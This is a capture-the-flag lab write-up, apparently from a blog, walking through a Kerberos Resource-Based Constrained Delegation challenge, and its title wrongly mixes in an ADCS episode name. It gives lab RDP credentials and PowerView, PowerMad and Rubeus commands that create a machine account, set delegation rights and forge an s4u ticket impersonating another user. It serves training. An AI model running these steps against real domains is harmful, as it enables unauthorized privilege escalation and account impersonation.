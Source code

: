 ```yaml
---
date: 2025-03-19
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.11 – Active Directory Certificate Services"
tags: ['kerberos', 'powershell', 'privilege escalation', 'rce']

description: "Kerberos Ep.11 – Resource-Based Constrained Delegation (RBCD) - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep.11 – Resource-Based Constrained Delegation (RBCD)


![image1](../resources/acf4b1efdfed40ba82617d29aaac9a3c.png)

- RDP:
```bash
xfreerdp /v:10.102.81.46 /u:s.villanelle /p:Summ3r2021! /d:krbtown +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image2](../resources/59f728b2e31143279fb57ff6abe435e4.png)


![image3](../resources/00add91b42de458cb58e3d5d8fd2c494.png)

- Enumeration:

```bash
. .\PowerView.ps1

get-domainuser s.villanelle -properties objectsid | select -exp objectsid

```

![image4](../resources/9fce19984a314375ad5e4ac1279d4a2c.png)

- Then, use the SID to enumerate what rights you have over Workstation-02 by running the command:

```bash
get-domainobjectacl workstation-02 | ?{$_.SecurityIdentifier -eq "[USER_SID]"}

get-domainobjectacl workstation-02 | ?{$_.SecurityIdentifier -eq "S-1-5-21-2984655098-284417223-3543700247-1121"}

```

![image5](../resources/d345e612b4484a6fa8e077489e00020c.png)


![image6](../resources/1486aeb35ae747a49a89028b530b5328.png)


![image7](../resources/3825e0e3c43b4055af8892ecada67b4d.png)


![image8](../resources/2e5c18f4823445d0bcc084376334c4de.png)

- Open Elevated Powershell:
```bash
. .\Powerview.ps1

Get-DomainObject -Identity "dc=krbtown,dc=local" -Domain krbtown.local

```

![image9](../resources/e2cb819759a4414e89e754b176536469.png)


![image10](../resources/33a1927dd54646c9b9b040094cdca15b.png)


![image11](../resources/a9d5c91b7e574921a84d4ce2944b53bf.png)


![image12](../resources/6f0f3726c11a4c39b07f2bb2d69f445b.png)


![image13](../resources/d847b9c6c0104d779bdacc1f4aed11cb.png)

- Open Elevated Powershell
```bash
. .\Powerview.ps1

Get-NetComputer Workstation-02 | Select-Object -Property name, msDS-AllowedToActOnBehalfOfOtherIdentity

```

![image14](../resources/6ef8a7da86574f3e8abf78ffcc3ac025.png)


![image15](../resources/c85c465d4bb84a69a6930dfb6fb76267.png)

- Open Elevated Powershell:
```bash
. ./PowerMad.ps1

```
New-MachineAccount -MachineAccount \<ANY_MACHINE_NAME\> -Password \$(ConvertTo-SecureString '\<RANDOM_PASSWORD\>' -AsPlainText -Force) -Verbose

**Give the machine a name of your choice and a password that meets the password policy**

```bash
New-MachineAccount -MachineAccount terminator -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force) -Verbose

```

![image16](../resources/4dff6fa14feb4fe097312d863f93126c.png)


![image17](../resources/b79ee794a7124ad5a9eda5f3ddf1e9cd.png)

Set-ADComputer workstation-02 -PrincipalsAllowedToDelegateToAccount \<NEW_MACHINE_NAME\>\$

```bash
Set-ADComputer workstation-02 -PrincipalsAllowedToDelegateToAccount terminator$

```

![image18](../resources/bec307712f264d0dbebbb9bd49581ebe.png)

- Open Elevated Powershell
```bash
. .\Powerview.ps1

Get-ADComputer workstation-02 -Properties PrincipalsAllowedToDelegateToAccount

```

![image19](../resources/b30d43b19de345279141f03ba543e019.png)


![image20](../resources/cb2f4b40c2bf4a88bd70115e9afc2e0a.png)


![image21](../resources/dd5d27563c1c482da276e7111c53c94f.png)

- Open Elevated Powershell:
.\Rubeus.exe hash /password:\<PASSWORD_OF_NEW_MACHINE\> /user:\<NEW_MACHINE_USERNAME\>\$ /domain:krbtown.local

```bash
.\Rubeus.exe hash /password:Password123 /user:terminator$ /domain:krbtown.local

```

![image22](../resources/47e81e1cbd1d473c8b9cecb6bd34144c.png)


![image23](../resources/d3dcf7d691724bde8927c93f60381887.png)

rubeus s4u /user:\<NEW_MACHINE_USERNAME\>\$ /rc4:\<NEW_MACHINE_HASH\> /impersonateuser:a.belridge /domain:krbtown.local /msdsspn:cifs/workstation-02.krbtown.local /ptt

```bash
.\Rubeus.exe s4u /user:terminator\$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:a.belridge /domain:krbtown.local /msdsspn:cifs/workstation-02.krbtown.local /ptt

```

![image24](../resources/6478b76b0a284ac9890acd4e0938be08.png)


![image25](../resources/b3ebf0d4a70641e4b5cb7cbd832fd8bf.png)

- Check with: klist

![image26](../resources/20805bf54d6747448d1f41b316f581cd.png)


![image27](../resources/040b0400cc41472fb844f81364478e73.png)


![image28](../resources/00e48279ffef426d8baf930a3a5d04a3.png)


![image29](../resources/ca60ab9335384cc7879ce72eff5f6a37.png)
